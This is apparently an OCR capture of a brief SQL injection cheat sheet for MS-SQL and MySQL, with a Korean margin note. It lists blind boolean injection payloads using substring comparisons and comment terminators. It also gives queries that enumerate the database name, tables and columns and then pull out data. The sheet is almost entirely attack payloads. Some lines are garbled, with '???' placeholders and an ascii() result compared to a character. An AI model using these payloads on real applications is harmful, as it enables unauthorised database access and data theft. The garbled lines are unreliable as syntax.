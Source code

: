 <MS-SQL> <br>
#Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
#get DB NAME <br>
db_name() <br>
<br>
#Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
#Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
#Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<MySQL> <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
#Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  
